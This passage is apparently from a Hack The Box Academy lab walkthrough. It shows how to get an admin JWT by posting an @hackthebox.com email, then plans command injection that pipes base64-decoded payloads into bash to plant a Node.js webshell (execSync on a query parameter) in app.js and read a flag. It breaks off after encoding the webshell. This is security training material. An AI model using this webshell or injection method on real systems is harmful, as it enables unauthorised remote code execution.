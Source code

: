 Answer: ``{"message":"The input \"\"`;//\" contains the following invalid characters: [\",`,;]"}``

# Command Execution

## Question 1

### "The server above runs the application in a test environment, so it automatically applies any new code. Use the discussed vulnerability to add a webshell middleware to 'app.js', then access it read the flag at '/flag.txt'. Hint: The route must be placed before the '404' middleware, otherwise it will be considered as 404."

Students need to begin by using `curl` to send a POST request to `/api/auth/authenticate` on the remote web application, with a JSON body containing `email` data. Additionally, the `email` data must contain an `@hackthebox.com` email address, resulting in a JWT with the admin role:

Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -d '{"email": "test@hackthebox.com"}' http://STMIP:STMPO/api/auth/authenticate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -d '{"email": "test@hackthebox.com"}' http://94.237.52.19:52762/api/auth/authenticate

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwMTc5MTYsImV4cCI6MTcwMTEwNDMxNn0.zfneEc3ZflQQ8flykwcfLZzW-ixsRJ06Gz43EDFMsrk"}
```

Next, students need to perform two separate command injections via the `/api/service/generate` endpoint. This will be accomplished by having the remote server decode a base64 encoded payload and having it piped into Bash.

For the first command injection, students need to send a payload that writes the contents of the webshell to a local text file on the server. Therefore, students need to first convert the webshell into base64 encoded string:

Code: shell

```shell
echo -n 'app.get("/api/cmd", (req, res) => {
  const cmd = require("child_process").execSync(req.query.cmd).toString();
  res.send(cmd);' | base64 -w0
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ echo -n 'app.get("/api/cmd", (req, res) => {
  const cmd = require("child_process").execSync(req.query.cmd).toString();
  res.send(cmd);' | base64 -w0
  
YXBwLmdldCgiL2FwaS9jbWQiLCAocmVxLCByZXMpID0+IHsKICBjb25zdCBjbWQgPSByZXF1aXJlKCJjaGlsZF9wcm9jZXNzIikuZXhlY1N5bmMocmVxLnF1ZXJ5LmNtZCkudG9TdHJpbmcoKTsKICByZXMuc2VuZChjbWQpOw==
```
